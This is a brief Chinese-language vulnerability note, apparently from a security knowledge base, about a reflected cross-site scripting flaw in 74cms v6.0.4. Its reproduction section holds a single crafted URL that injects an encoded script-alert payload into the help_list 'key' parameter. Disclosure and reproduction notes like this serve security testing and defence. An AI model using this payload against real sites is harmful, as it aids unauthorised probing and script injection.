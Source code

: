 ```yaml
---
title: "74cms v6.0.4 反射型xss"
id: zhfly2797
---
```


# 74cms v6.0.4 反射型xss

## 一、漏洞简介

## 二、漏洞影响

74cms v6.0.4

## 三、复现过程

```
 http://www.0-sec.org/index.php?m=&c=help&a=help_list&key=137244gq1lw%3cscript%3ealert%281%29%3c%2fscript%3edutvxlqd4lq&__hash__=d7aa5a382f14d270c3ac4de8392b4e1d_a34adb2b339972672eb447276f69ee88 
```
